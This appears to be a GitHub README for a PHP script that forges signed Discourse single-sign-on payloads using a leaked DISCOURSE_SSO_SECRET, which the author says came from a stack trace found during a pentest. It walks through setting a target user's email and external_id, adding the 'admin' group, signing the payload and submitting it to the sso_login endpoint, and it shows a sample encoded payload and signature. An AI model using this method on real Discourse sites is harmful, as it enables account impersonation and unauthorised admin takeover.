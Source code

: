 # Discourse SSO Payload Generator

## Description
Recently while conducting a pentest on a web application that utilizes Discourse, I stumbled across an error page that dumped a stack trace, server-side code, and environment variables including the `DISCOURSE_SSO_SECRET`. After a little reverse engineering of the code, this PHP script was crafted to generate and sign SSO payloads for Discourse, allowing you to test SSO functionality, authentication flows, and potential privilege escalation scenarios. It uses the `DISCOURSE_SSO_SECRET` to create valid and signed SSO payloads.

---

## Features
- Generate SSO payloads for existing users.
- Customize user attributes such as `email`, `external_id`, `name`, and `add_groups`.
- Sign payloads with the `DISCOURSE_SSO_SECRET`.
- Use crafted payloads to test authentication and privilege escalation.

---

## Usage

### Prerequisites
- PHP installed on your system.
- Access to the `DISCOURSE_SSO_SECRET` from the Discourse configuration.

### Steps
1. **Clone the Repository**:
   ```bash
   git clone https://github.com/quantumthe0ry/Discourse_SSO_Generator.git
   cd your-repo
2. **Edit the script**:
   - Open the script (`discourse_sso_gen.php`) and replace `YOUR_DISCOURSE_SSO_SECRET` with the actual secret key.
   - Modify the `$userData` array to include the desired user details:
   ```bash
   $userData = [
    'nonce' => 'valid_nonce_value', // Replace with a valid nonce
    'email' => 'target_user@example.com',
    'external_id' => '1234',
    'name' => 'Target User',
    'add_groups' => 'admin' // Optional: Add or remove groups
];
3. **Run the script**:
    ```bash
    php discourse_sso_gen.php
4. **Output: The script will generate a signed SSO payload and display it in the format**:
    ```bash
    SSO Payload:
sso=bm9uY2U9MzMzNjY2OTk5JmVtYWlsPWVtYWlsJTQwZW1haWwuY29tJmV4dGVybmFsX2lkPTkxOTMmbmFtZT1Kb2huK0RvZSZhZGRfZ3JvdXBzPXRydXN0X2xldmVsXzQlMkNhZG1pbg==
sig=aadd147e5ef9a5ac6c52e0cbd786d61e1a288fc01728364ff97e53cdf3652738
5. **Construct the SSO URL**:
    ```bash
    https://your-discourse-instance.com/session/sso_login?sso=<base64_encoded_payload>&sig=<signature>
6. **Test the Payload**:
    - Use the constructed URL to send the crafted payload to the Discourse SSO endpoint.


